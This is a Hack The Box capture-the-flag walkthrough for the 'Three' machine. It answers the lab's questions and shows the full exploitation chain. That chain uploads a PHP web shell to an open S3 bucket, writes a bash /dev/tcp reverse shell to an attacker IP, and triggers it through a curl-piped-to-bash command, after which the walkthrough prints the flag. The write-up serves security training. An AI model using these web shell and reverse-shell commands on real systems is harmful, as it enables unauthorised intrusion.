

# Three

## Machine Details 

- **CTF:** Hack The Box
- **Category:** Tier 1

## Solution

#### 1. How many TCP ports are open?

> 2

#### 2. What is the domain of the email address provided in the "Contact" section of the website?

> thetoppers.htb

#### 3. In the absence of a DNS server, which Linux file can we use to resolve hostnames to IP addresses in order to be able to access the websites that point to those hostnames?

> /etc/hosts

#### 4. Which sub-domain is discovered during further enumeration?

*(`echo "10.129.189.219 thetoppers.htb" | sudo tee -a /etc/hosts`)*

> s3.thetoppers.htb

*(`echo "10.129.189.219 s3.thetoppers.htb" | sudo tee -a /etc/hosts`)*

#### 5. Which service is running on the discovered sub-domain?

> Amazon S3

#### 6. Which command line utility can be used to interact with the service running on the discovered sub-domain?

> awscli

#### 7. Which command is used to set up the AWS CLI installation?

> aws configure

#### 8. What is the command used by the above utility to list all of the S3 buckets?

> aws s3 ls

#### 9. This server is configured to run files written in what web scripting language?

> PHP

#### Submit root flag

```sh
aws configure
AWS Access Key ID [****************a]: a
AWS Secret Access Key [****************a]: a
Default region name [a]: a
Default output format [a]: a
$ aws s3 ls --endpoint=http://s3.thetoppers.htb
2024-03-02 16:21:54 thetoppers.htb
$ aws s3 ls --endpoint=http://s3.thetoppers.htb s3://thetoppers.htb
                           PRE images/
2024-03-02 16:21:54          0 .htaccess
2024-03-02 16:21:54      11952 index.php
$ echo '<?php system($_GET["cmd"]); ?>' > shell.php
$ aws s3 cp shell.php --endpoint=http://s3.thetoppers.htb s3://thetoppers.htb 
upload: ./shell.php to s3://thetoppers.htb/shell.php
```

Next, when we visit [http://thetoppers.htb/shell.php?cmd=id](http://thetoppers.htb/shell.php?cmd=id) we see our shell is working:



Next we can make reverse shell:

```sh
#!/bin/bash
bash -i >& /dev/tcp/10.10.16.15/9001 0>&1
```

And save it as `shell.sh`. Then listen on that port:

```sh
$ nc -l 9001
```

And start `python` webserver in another `Terminal` window:

```sh
$ python3 -m http.server 8000
```

We can use the `curl` utility to fetch the `bash` reverse shell file from our local host and then pipe it to bash in order to execute it:

[http://thetoppers.htb/shell.php?cmd=curl%2010.10.16.15:8000/shell.sh|bash](http://thetoppers.htb/shell.php?cmd=curl%2010.10.16.15:8000/shell.sh|bash)

And we have reverse shell:

```sh
www-data@three:/var/www/html$
```

And here is the flag:

```sh
www-data@three:/var/www/html$ cd ..
www-data@three:/var/www$ ls
flag.txt
html
www-data@three:/var/www$ cat flag.txt
a980d99281a28d638ac68b9bf9453c2b
```

## Final Flag

> a980d99281a28d638ac68b9bf9453c2b

*Created by [bu19akov](https://github.com/bu19akov)*